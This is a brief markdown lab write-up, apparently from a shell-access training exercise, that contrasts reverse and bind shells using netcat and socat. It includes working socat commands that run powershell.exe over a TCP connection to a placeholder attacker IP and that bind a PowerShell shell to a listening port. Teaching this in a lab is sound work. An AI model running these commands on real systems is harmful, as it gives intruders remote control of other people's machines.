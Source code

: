 # Netcat

Before moving ahead lets understand the basic difference between Reverse shell and Bind shell

The main difference that in rev shell and bind shell is that in rev shell you establish
the listner in your machine whereas in the bind shell the compromisded machine will establish the listener.

In to get a clear idea lets perform the task.. and see whats the real difference is


The one that we created in the prev task was a webshell :0

**Netcat For REV-SHELL**

Open the cmd using the administrators permissions now simply type the command :

    nc <ip> port

There we go..

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/a1bdf8bc-e6dc-445b-ac92-35f155d05290)


This is a NETCAT reverse shell..


Now lets create a **Bind shell**

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/6ec413c7-24fb-4581-9335-c7fc2209abaa)


Now you can see the difference 

# SOCAT

- Socat rev-shell 
We will be using this command for listner :(in our machine)

      socat TCP-L:<PORT> -

Go to windows and execute this command:

    socat TCP:<LOCAL IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/4d711919-d314-49cd-90c9-444d5a7ed072)

There we gooo!!

- Socat bind shell

1. Commad:(in the compromised machine)

       socat TCP-L:<PORT> EXEC:powershell.exe,pipes

2. In your machine

       socat TCP:<LOCAL IP>:<LOCAL-PORT>
       
![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/0304dc7e-e064-4797-ad2b-dd61622f907b)


